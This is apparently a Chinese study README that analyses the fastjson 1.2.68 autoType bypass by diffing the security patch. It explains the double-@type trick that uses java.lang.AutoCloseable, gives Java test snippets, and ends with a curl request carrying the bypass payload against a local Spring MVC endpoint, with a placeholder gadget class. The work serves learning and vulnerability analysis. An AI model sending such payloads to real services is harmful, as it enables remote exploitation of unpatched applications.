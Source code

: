 fastjson-study

## 背景

fastjson 1.2.68 版本爆出高危漏洞，本次通过寻找改漏洞触发机制来学习 fastjson 的安全机制

[安全漏洞通告](https://github.com/alibaba/fastjson/wiki/security_update_20200601)

## bug 追踪

### 查看 bug 如何被修复

![img.png](./screenshots/img1.png)

升级到 *.sec10 可解决问题

### 下载代码查看修改点

1.2.8 到 1.2.8.sec10 改动较小，增加了一个 denyHashCodes，三个 exceptClass (并将 exceptClass 替换为 exceptHash)

下载 source.jar 解压获取源码 (已解压放到 fastjson-source-code 文件夹下)

[fastjson-1.2.8-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8/fastjson-1.2.8-sources.jar)

[fastjson-1.2.8.sec10-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8.sec10/fastjson-1.2.8.sec10-sources.jar)

1. 在 ParserConfig.denyHashCodes 中添加了 0xD59EE91F0B09EA01L

![img.png](./screenshots/img2.png)

通过广大网友的暴力破解 [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

得到 0xD59EE91F0B09EA01L 为 oracle.jms.AQ

但黑名单需要开启 autoType 才能使用，所以该重大漏洞大概率与 oracle.jms.AQ 无关

2. exceptClass 替换为 exceptHash 并添加了3个

![img.png](./screenshots/img3.png)

通过源码分析，使用 TypeUtils.fnv1a_64 遍历 java 标准库的类名得到新增加的 3个 exceptHash 为

- java.lang.Runnable
- java.lang.Readable
- java.lang.AutoCloseable

能绕过 autoType 限制大概率于这三个类有关

# 如何绕过 autoType 限制

在网上查阅资料得到可以通过两个 @type 标记绕过 autoType 限制，具体操作如下

```java
//see FastjsonTest.test1
//AutoCloseableBadCode 实现了 AutoCloseable 接口
String jsonString = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parse(jsonString);
log.info("result className {}", result.getClass().getName());
// ==> result className  io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

json 串中有两个相同的 key @type 反序列化时不会报错吗？答案时不会。

```java
//see FastjsonTest.test1
log.info("result {}", JSON.parseObject("{\"a\": 1, \"a\":2}"));
// ==> result {"a":2}
```

没有开启 autoType 时，什么情况下可以使用 @type ?

通过分析 ParserConfig.checkAutoType 的代码得:

1. 指定期望类，且 @type 为期望类或其子类

```java
//set FastjsonTest.test6
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parseObject(jsonString, AutoCloseable.class);
log.info("result className {}", result.getClass().getName());
// ==> result className io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

2. 类被 fastjson 反序列化过 (被 TypeUtils 缓存过)

```java
//see FastjsonTest.test7
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
//被反序列过
JSON.parseObject("{}", AutoCloseableBadCode.class);
Object result = JSON.parseObject(jsonString);
log.info("result className {}", result.getClass().getName());
```

添加的三个期望类中只有 AutoCloseable 被 TypeUtils 缓存过，所以能绕过 autoType 的高危漏洞多半与其有关

通过代码分析，两个 @type 中，在效果上等价于:

```java
//运行到第一个 @type，告知 fastjson 要反序列 AutoCloseable，AutoCloseable 被缓存过，允许反序列化，期望类变更为 AutoCloseable
JSON.parseObject"{\"@type\":\"java.lang.AutoCloseable\"}");
//运行到第二个 @type，告知 fastjson 要反序列 AutoCloseableBadCode, AutoCloseableBadCode 是 AutoCloseable 的实现，允许反序列化，期望类变更为 AutoCloseableBadCode
Object result = JSON.parseObject("\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}", AutoCloseable.class);
```

绕过此次漏洞是由该方式造成的，那么该类需要有如下特征

1. 拥有公开的无参构造方法
2. getXXX 或 setXXX 或无参构造方法能触发危险操作
3. 实现 AutoType
4. 不在 fastjson 的黑名单中
5. 在 java 标准库中或常用的第三方库中

# 利用漏洞的方法

以下构造了一个相对比较常见的常见

条件: 
1. 使用 spring mvc，且反序列化方式使用 fastjson (常见)

```java
@Bean
public HttpMessageConverter configureMessageConverters() {
    FastJsonHttpMessageConverter converter = new FastJsonHttpMessageConverter();
    FastJsonConfig config = new FastJsonConfig();
    converter.setFastJsonConfig(config);
    converter.setDefaultCharset(StandardCharsets.UTF_8);
    List<MediaType> mediaTypeList = new ArrayList<>();
    mediaTypeList.add(MediaType.APPLICATION_JSON);
    converter.setSupportedMediaTypes(mediaTypeList);
    return converter;
}
```

2. 拥有一个使用 @RequestBody 的 Controller (常见)

```java
@PostMapping("case1")
public TestCase1Vo test1(@RequestBody TestCase1Request request) {
    TestCase1Vo vo = new TestCase1Vo();
    vo.setMessage(request.getMessage());
    return vo;
}
```

3. 拥有满足高危漏洞的类(比较难找，这里用 AutoCloseableBadCode 代替)

正常请求:

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"msg": "data1"}'
```

触发漏洞请求

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"data": {"@type":"java.lang.AutoCloseable","@type":"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode","name":"test"}, "msg": "test"}'
```

此时就会执行 AutoCloseableBadCode.setName (目标类可以没有 setData 和 getData 属性)

# 总结

个人认为 fastjson 不太合理的点:

1. 缺少基本参数校验: 同一层级出现两个相同 key 不属于标准 json 格式，应当报错
2. API未按危险等级划分: JSON.parse、JSON.parseObject 都能在默认配置下对 @type 生效，应当提供默认不支持 @type 的方法(safe 模式)
3. 指定期望类情况下依旧下不对是否有该参数进行校验
4. 用户可能会在不知情的情况下对某些类进行反序列化，被反序列过的类再次反序列化校验不严格

